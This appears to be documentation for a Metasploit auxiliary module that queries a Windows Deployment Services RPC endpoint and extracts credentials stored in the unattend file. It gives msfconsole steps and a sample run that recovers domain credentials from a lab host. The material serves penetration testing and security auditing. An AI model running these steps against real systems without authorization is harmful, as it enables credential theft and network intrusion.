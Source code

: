 ## Vulnerable Application

This module retrieves the client unattend file from Windows Deployment Services RPC service and parses out the stored credentials. Tested against Windows 2008 R2 x64 and Windows 2003 x86.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/dcerpc/windows_deployment_services) and pull request [PR #1420](https://github.com/rapid7/metasploit-framework/pull/1420).

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/dcerpc/windows_deployment_services`
  3. set RHOST [ip]
  4. Do: `run`

## Scenarios

### A run on Windows Server 2008 R2 X64

  ```
  msf > use modules/auxiliary/scanner/dcerpc/windows_deployment_services
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > show options
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > set RHOST 192.168.5.1
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > run

    [*] Binding to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040] ...
    [+] Bound to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040]
    [*] Sending X64 Client Unattend request ...
    [*] Raw version of X64 saved as: C:/Documents and Settings/user/.msf/loot/20121213104745_default_192.168.5.1_windows.unattend_399005.txt
    [+] Retrieved wds credentials for X64
    [*] Sending X86 Client Unattend request ...
    [*] Sending IA64 Client Unattend request ...

      Windows Deployment Services
      ===========================

      Architecture  Type  Domain        Username  Password
      ------------  ----  ------        --------  --------
      X64           wds   Fabrikam.com  username  my_password

    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
